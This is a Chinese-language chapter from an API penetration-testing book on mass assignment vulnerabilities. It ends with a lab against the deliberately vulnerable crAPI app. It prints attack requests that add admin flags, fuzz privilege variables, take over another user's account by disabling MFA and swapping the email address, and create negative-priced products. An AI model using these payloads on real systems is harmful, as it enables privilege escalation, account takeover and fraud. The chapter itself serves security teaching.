





# 大规模赋值


如果 API 允许消费者发送请求更新或覆盖服务器端变量，那么该 API 就容易受到大规模赋值攻击。如果 API 在没有过滤或清理客户端输入的情况下接受它，攻击者就可以更新他们不应该与之互动的对象。例如，一个银行 API 可能允许用户更新与账户关联的电子邮件地址，但一个大规模赋值漏洞可能允许用户发送请求更新其账户余额。

在本章中，我们将讨论寻找大规模赋值目标的策略，并了解 API 使用哪些变量来识别敏感数据。然后，我们将讨论如何使用 Arjun 和 Burp Suite Intruder 自动化你的大规模赋值攻击。

## 查找大规模赋值目标

发现并利用大规模赋值漏洞最常见的地方是在接受和处理客户端输入的 API 请求中。账户注册、个人资料编辑、用户管理和客户管理都是允许客户端通过 API 提交输入的常见功能。

### 账户注册

大规模赋值最常见的地方可能是在账户注册过程中，因为这些过程可能允许你注册为管理员用户。如果注册过程依赖于 Web 应用程序，最终用户将填写包括所需用户名、电子邮件地址、电话号码和账户密码等标准字段。一旦用户点击提交按钮，类似以下的 API 请求将被发送：

```
POST /api/v1/register
`--snip--`
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"password":"Password1!"
}
```

对于大多数最终用户来说，这个请求是在后台进行的，他们对此一无所知。然而，由于你是拦截 Web 应用程序流量的专家，你可以轻松地捕获并操控它。一旦你拦截到注册请求，检查你是否可以在请求中提交额外的值。这个攻击的常见版本是通过添加一个 API 提供者可能用来识别管理员的变量，将账户升级为管理员角色：

```
POST /api/v1/register
`--snip--`
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"password":"Password1!"
}
```

如果 API 提供者使用该变量来更新后端账户权限并接受来自客户端的额外输入，那么此请求将把注册的账户变成管理员账户。

### 未经授权的组织访问

大规模赋值攻击不仅仅是尝试成为管理员。你也可以使用大规模赋值来未经授权访问其他组织。例如，如果你的用户对象包括一个允许访问公司机密或其他敏感信息的组织组，你可以尝试访问该组。在这个例子中，我们已将`"org"`变量添加到我们的请求中，并将其值转化为一个攻击位置，接下来可以在 Burp Suite 中进行模糊测试：

```
POST /api/v1/register
`--snip--`
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
**"org": "§CompanyA§",**
"password":"Password1!"
}
```

如果你可以将自己分配到其他组织，你可能能够未经授权访问其他团队的资源。要执行这样的攻击，你需要知道在请求中用于标识公司的名称或 ID。如果 `"org"` 值是一个数字，你可以像测试 BOLA 时那样，暴力破解其值，看看 API 如何响应。

不要将大规模赋值漏洞的搜索仅限于账户注册过程。其他 API 功能也可能存在漏洞。测试其他用于重置密码的端点；更新账户、组或公司资料的端点；以及任何其他你可能能够分配额外权限的操作。

## 查找大规模赋值变量

大规模赋值攻击的挑战在于，不同的 API 中使用的变量之间缺乏一致性。话虽如此，如果 API 提供商有某种方法来指定账户为管理员，比如说，你可以确信他们也有某种约定来创建或更新变量以将用户设置为管理员。模糊测试可以加快你寻找大规模赋值漏洞的速度，但除非你了解目标的变量，否则这种技术可能会是一次盲目尝试。

### 在文档中查找变量

首先，在 API 文档中查找敏感变量，特别是在涉及特权操作的部分。特别是，文档可以很好地指示哪些参数包含在 JSON 对象中。

例如，你可能会搜索低权限用户与管理员账户的创建方式的不同。提交请求以创建标准用户账户可能看起来像这样：

```
POST /api/create/user
Token: **LowPriv-User**
`--snip--`
{
"username": "hapi_hacker",
"pass": "ff7ftw"
}
```

创建管理员账户可能看起来像以下内容：

```
POST /api/**admin**/create/user
Token: **AdminToken**
`--snip--`
{
"username": "adminthegreat",
"pass": "bestadminpw",
**"admin":****true**
}
```

注意，管理员请求被提交到管理员端点，使用管理员令牌，并且包含参数 `"admin": true`。有许多与管理员账户创建相关的字段，但如果应用程序没有正确处理这些请求，我们可能只需通过将参数 `"admin"=true` 添加到我们的用户账户请求中，就能创建一个管理员账户，如下所示：

```
POST /create/user
Token: LowPriv-User
`--snip--`
{
"username": "hapi_hacker",
"pass": "ff7ftw",
**"admin": true**
}
```

### 模糊测试未知变量

另一个常见的场景是，你在 Web 应用程序中执行某个操作，拦截请求，并在其中找到几个额外的头部或参数，例如：

```
POST /create/user
`--snip--`
{
"username": "hapi_hacker"
"pass": "ff7ftw",
**"uam": 1,**
**"mfa": true,**
**"account": 101**
}
```

在一个端点中使用的参数可能会对通过另一个端点进行大规模赋值攻击有用。当你不理解某个参数的用途时，就是该穿上实验外套进行试验的时候了。尝试通过将`uam`设为零，`mfa`设为 false，以及将`account`设置为 0 到 101 之间的每个数字进行模糊测试，然后观察服务提供商的响应。更好的是，尝试使用前一章讨论的各种输入。通过收集端点中的参数构建词汇表，然后通过提交包含这些参数的请求来锻炼你的模糊测试技巧。账户创建是进行此操作的一个好地方，但不要仅限于此。

### 盲目大规模赋值攻击

如果你在上述讨论的位置找不到变量名，你可以执行盲目大规模赋值攻击。在这种攻击中，你会尝试通过模糊测试来暴力破解可能的变量名。发送一个包含多个可能变量的单一请求，例如以下内容，并观察哪些能成功：

```
POST /api/v1/register
`--snip--`
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"admin":1,
"isadmin": true,
"role":"admin",
"role":"administrator",
"user_priv": "admin",
"password":"Password1!"
}
```

如果一个 API 存在漏洞，它可能会忽略无关的变量，只接受与预期名称和格式匹配的变量。

## 使用 Arjun 和 Burp Suite Intruder 自动化大规模赋值攻击

与许多其他 API 攻击一样，你可以通过手动修改 API 请求或使用像 Arjun 这样的工具进行参数模糊测试来发现大规模赋值漏洞。正如你在以下 Arjun 请求中看到的，我们使用`–headers`选项包含了授权令牌，指定了 JSON 作为请求体的格式，并标明了 Arjun 应该测试的确切攻击点，即`$arjun$`：

```
$ **arjun --headers "Content-Type: application/json]" -u http://vulnhost.com/api/register -m JSON --include='{$arjun$}'**

[~] Analysing the content of the webpage
[~] Analysing behaviour for a non-existent parameter
[!] Reflections: 0
[!] Response Code: 200
[~] Parsing webpage for potential parameters
[+] Heuristic found a potential post parameter: admin
[!] Prioritizing it
[~] Performing heuristic level checks
[!] Scan Completed
[+] Valid parameter found: user
[+] Valid parameter found: pass
[+] Valid parameter found: admin
```

结果，Arjun 将向目标主机发送一系列带有各种参数的请求，这些参数来自词汇表。然后，Arjun 将根据响应长度和响应代码的偏差缩小可能的参数范围，并为你提供一个有效参数的列表。

请记住，如果你遇到速率限制问题，可以使用 Arjun 的`—stable`选项来减慢扫描速度。这个示例扫描已完成并发现了三个有效参数：`user`、`pass`和`admin`。

许多 API 会阻止你在单个请求中发送过多的参数。因此，你可能会收到一些 HTTP 状态码，通常位于 400 范围内，例如 400 Bad Request、401 Unauthorized 或 413 Payload Too Large。在这种情况下，你可以选择通过多个请求来遍历可能的大规模赋值变量，而不是发送一个大的请求。这可以通过在 Burp Suite 的 Intruder 中设置请求，将可能的大规模赋值值作为负载来完成，像这样：

```
POST /api/v1/register
`--snip--`
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
**§"admin": true§,**
"password":"Password1!"
}
```

## 结合 BFLA 和大规模赋值

如果你发现了一个 BFLA 漏洞，允许你更新其他用户的账户信息，可以尝试将这个能力与大规模赋值攻击结合起来。例如，假设一个名叫 Ash 的用户发现了一个 BFLA 漏洞，但这个漏洞只允许他编辑一些基本的个人资料信息，如用户名、地址、城市和地区：

```
PUT /api/v1/account/update
Token:UserA-Token
`--snip--`
{
"username": "Ash",
"address": "123 C St",
"city": "Pallet Town"
"region": "Kanto",
}
```

到这一点，Ash 可以篡改其他用户账户，但也仅此而已。然而，如果通过此请求执行大规模赋值攻击，可能会使 BFLA 漏洞变得更加严重。假设 Ash 分析了 API 中其他的 GET 请求，并注意到其他请求包含了电子邮件和多因素认证（MFA）设置的参数。Ash 知道有另一个用户，名叫 Brock，他想访问该账户。

Ash 可以禁用 Brock 的 MFA 设置，从而更容易访问 Brock 的账户。此外，Ash 还可以将 Brock 的电子邮件替换为自己的。如果 Ash 发送以下请求并获得成功响应，他就能访问 Brock 的账户：

```
PUT /api/v1/account/update
Token:UserA-Token
`--snip--`
{
"username": "Brock",
"address": "456 Onyx Dr",
"city": "Pewter Town",
"region": "Kanto",
"email": "ash@email.com",
"mfa": false
}
```

由于 Ash 不知道 Brock 当前的密码，Ash 应该利用 API 的密码重置流程，这通常是一个 PUT 或 POST 请求发送到 */api/v1/account/reset*。密码重置过程会将临时密码发送到 Ash 的电子邮件。禁用 MFA 后，Ash 可以使用该临时密码完全访问 Brock 的账户。

时刻记住，要像对手一样思考，抓住每一个机会。

## 总结

如果你遇到一个请求，它接受客户端输入的敏感变量，并允许你更新这些变量，那么你就发现了一个严重的漏洞。像其他 API 攻击一样，某些漏洞看似微不足道，直到你将它与其他有趣的发现结合起来。发现大规模赋值漏洞往往只是冰山一角。如果存在这个漏洞，其他漏洞也很可能会随之而来。

## 实验 #8：在在线商店中更改商品价格

配备我们新的大规模赋值攻击技术后，让我们回到 crAPI。考虑哪些请求接受客户端输入，以及我们如何利用恶意变量来妥协 API。在你的 crAPI Postman 集合中，似乎有几个请求允许客户端输入：

1.  `POST /identity/api/auth/signup`

1.  `POST /workshop/api/shop/orders`

1.  `POST /workshop/api/merchant/contact_mechanic`

一旦我们决定添加哪个变量，值得对这些请求进行一次测试。

我们可以在 GET 请求到 */workshop/api/shop/products* 端点时定位到一个敏感变量，该端点负责将产品加载到 crAPI 店面。使用 Repeater 工具，注意到 GET 请求加载了一个名为 `"credit"` 的 JSON 变量（见 图 11-1）。这个变量似乎是一个有趣的操控对象。



图 11-1：使用 Burp Suite Repeater 分析 */workshop/api/shop/products* 端点

这个请求已经为我们提供了一个潜在的变量来进行测试（`credit`），但是我们实际上无法通过 GET 请求更改信用值。让我们快速运行一次 Intruder 扫描，看看是否可以利用其他请求方法与这个端点交互。右键点击 Repeater 中的请求并将其发送到 Intruder。一旦进入 Intruder，将攻击位置设置为请求方法：

```
§GET§ /workshop/api/shop/products HTTP/1.1
```

让我们更新有效载荷，使用我们想要测试的请求方法：PUT、POST、HEAD、DELETE、CONNECT、PATCH 和 OPTIONS（见 图 11-2）。

启动攻击并查看结果。你会注意到，crAPI 会对受限方法响应 405 Method Not Allowed 状态码，这意味着我们在收到的 POST 请求响应中的 400 Bad Request 非常有趣（见 图 11-3）。这个 400 Bad Request 很可能表示 crAPI 期望在 POST 请求中包含不同的有效载荷。



图 11-2：Burp Suite Intruder 请求方法与有效载荷



图 11-3：Burp Suite Intruder 结果

响应告诉我们在 POST 请求中遗漏了一些必需字段。最棒的部分是 API 告诉我们需要哪些参数。如果我们仔细想一想，可以推测这个请求可能是为 crAPI 管理员设计的，用于更新 crAPI 商店。然而，由于这个请求并不限制管理员使用，我们可能已经发现了一个组合型的批量赋值（Mass Assignment）和 BFLA 漏洞。或许我们可以在商店中创建一个新商品，并同时更新我们的信用：

```
POST /workshop/api/shop/products HTTP/1.1

Host: 192.168.195.130:8888
Authorization: Bearer **UserA-Token**

{
"name":"TEST1",
"price":25,
"image_url":"string",
"credit":1337
}
```

这个请求成功了，返回 HTTP 200 OK 响应！如果我们在浏览器中访问 crAPI 商店，我们会发现我们成功地在商店中创建了一个新的商品，价格为 25，但不幸的是，我们的信用没有受到影响。如果我们购买这个商品，我们会注意到它会自动从我们的信用中扣除该金额，就像任何常规商店交易一样。

现在是时候戴上我们的对抗者帽子，思考一下这个业务逻辑了。作为 crAPI 的消费者，我们不应该能够向商店添加产品或调整价格……但我们可以。如果开发者在编程时假设只有可信的用户才能向 crAPI 商店添加产品，那么我们可能做什么来利用这种情况呢？我们可以给自己在某个产品上打个极大的折扣——可能优惠到价格实际上是负数：

```
POST /workshop/api/shop/products HTTP/1.1

Host: 192.168.195.130:8888
Authorization: Bearer UserA-Token

{
"name":"MassAssignment SPECIAL",
"price":-5000,
"image_url":"https://example.com/chickendinner.jpg"
}
```

商品 `MassAssignment SPECIAL` 是独一无二的：如果你购买它，商店将支付你 5,000 个积分。果然，这个请求收到了 HTTP 200 OK 响应。如图 11-4 所示，我们已成功将此商品添加到 crAPI 商店。



图 11-4：crAPI 上的批量赋值特价

通过购买这个特价商品，我们的可用余额增加了 5,000 美元（参见 图 11-5）。



图 11-5：crAPI 上的可用余额

如你所见，我们的批量赋值漏洞攻击将对任何存在此漏洞的企业造成严重后果。我希望你为发现此漏洞所获得的赏金远远超过你可以加到账户上的信用！在下一章中，我们将开始探索可以利用于 API 的各种潜在注入攻击。
